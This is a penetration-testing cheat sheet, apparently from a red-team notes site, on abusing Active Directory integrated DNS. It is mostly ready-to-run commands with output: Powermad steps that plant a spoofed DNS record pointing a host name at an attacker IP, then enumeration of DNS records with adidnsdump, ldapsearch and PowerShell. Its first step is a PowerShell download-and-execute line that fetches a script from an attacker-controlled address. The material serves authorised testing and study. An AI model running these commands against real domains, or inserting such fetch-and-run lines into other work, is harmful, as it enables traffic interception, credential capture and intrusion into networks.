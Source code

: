 ```yaml
---
description: Active Directory integrated DNS
---
```


# ADIDNS Abuse

* [https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)
* [https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)
* [https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/](https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/)

0\. Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
```

1\. Check if you are able to modify (add) AD DNS names:

```
PS > Get-ADIDNSZone -Credential $cred -Verbose
DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=_msdcs.megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=megacorp,DC=local

PS > Get-ADIDNSPermission -Credential $cred -Verbose | ? {$_.Principal -eq 'NT AUTHORITY\Authenticated Users'}
Principal             : NT AUTHORITY\Authenticated Users
IdentityReference     : S-1-5-11
ActiveDirectoryRights : CreateChild
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

This `CreateChild` permission is what we need.

2\. Create, configure the new DNS name that could be likely exploited for spoofing with Attacker's IP and enable it. I chose `pc01` which was found in DNS cache:

```
PS > New-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
PS > $dnsRecord = New-DNSRecordArray -Type A -Data 10.10.13.37
PS > Set-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Value $dnsRecord -Credential $cred -Verbose
PS > Enable-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```

3\. Check the newly created DNS object and try to resolve it. AD will need some time (\~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol:

```
PS > Get-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Credential $cred -Verbose
PS > Resolve-DNSName pc01
PS > cmd /c ping -n 1 pc01
```

4\. Cleanup:

```
PS > Remove-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```




## adidnsdump

* [https://github.com/dirkjanm/adidnsdump](https://github.com/dirkjanm/adidnsdump)

```
$ adidnsdump -u 'megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.megacorp.local -r [--dcfilter]
$ mv records.csv ~/ws/enum/adidns.csv
```

Check with ldapsearch:

```
$ ldapsearch -H ldap://10.10.13.37:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b 'DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local' '(objectClass=*)' dnsRecord dNSTombstoned name
```

If you need to dump a child domain ADIDNS (say `child.megacorp.local`), then you may want to use `--zone` and `--forest` options:

```
 # Will dump records from DC=megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local --zone megacorp.local --forest -r
 # Will attempt to dump records from DC=child.megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=child,DC=megacorp,DC=local (and may fail)
$ adidnsdump -u 'child.megacorp.local\snovvcrash' -p 'Passw0rd!' DC01.child.megacorp.local -r
```

Merge standalone IPs into CIDRs with a simple Python script:

```
$ cat ~/ws/enum/adidns.csv | awk -F, '{print $3}' > ip.lst
$ python3 cidr_merge.py | sort -u -t'.' -k1,1n -k2,2n -k3,3n -k4,4n | grep -e '^192' -e '^172' -e '^10'
```

{% code title="cidr_merge.py" %}
```python
#!/usr/bin/env python3

import netaddr

iplst = []
with open('ip.lst', 'r') as fd:
    for line in fd:
        ip = line.rstrip('\n')
        try:
            iplst.append(netaddr.IPNetwork(f'{ip}/24'))
        except netaddr.core.AddrFormatError:
            pass

for net in netaddr.cidr_merge(iplst):
    print(str(net))
```
{% endcode %}




## DnsServer

Dump ADIDNS using PowerShell:

```
PS > Import-Module DnsServer
PS > Get-DnsServerZone -ComputerName DC01 | % {Get-DnsServerResourceRecord -ComputerName DC01 -ZoneName $_.ZoneName -RRType A} | ft -Wrap -AutoSize | tee adidns.txt
```
